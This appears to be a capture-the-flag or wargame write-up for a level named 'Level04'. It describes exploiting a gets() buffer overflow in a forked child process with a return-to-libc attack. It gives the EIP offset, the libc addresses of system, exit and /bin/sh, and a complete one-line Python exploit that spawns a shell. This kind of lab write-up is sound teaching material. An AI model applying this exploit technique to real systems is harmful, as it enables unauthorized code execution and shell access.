




# Level04

The program waits a shellcode as inputs. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

The `gets` call is vulnerable to buffer overflow, lets try to overflow and overwrite `EIP`, and so take control of the program.
Because `gets` is called by the child process, to investigate in gdb we need to follow the child using the command `set follow-fork-mode child`.

Using the following example with this [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the `EIP` after `156` bytes.

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. 
So let's try a return-to-libc attack. First, we need the address of `system`, `exit` and `/bin/sh`.

We can build our exploit string:

1. Buffer offset = 156 
2. `system` address = `0xf7e6aed0`
3. `exit` address = `0xf7e5eb70`
4. `/bin/sh` address = `0xf7f897ec`
   
`(python -c "print 'A' * 156 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" ; cat) |./level04`

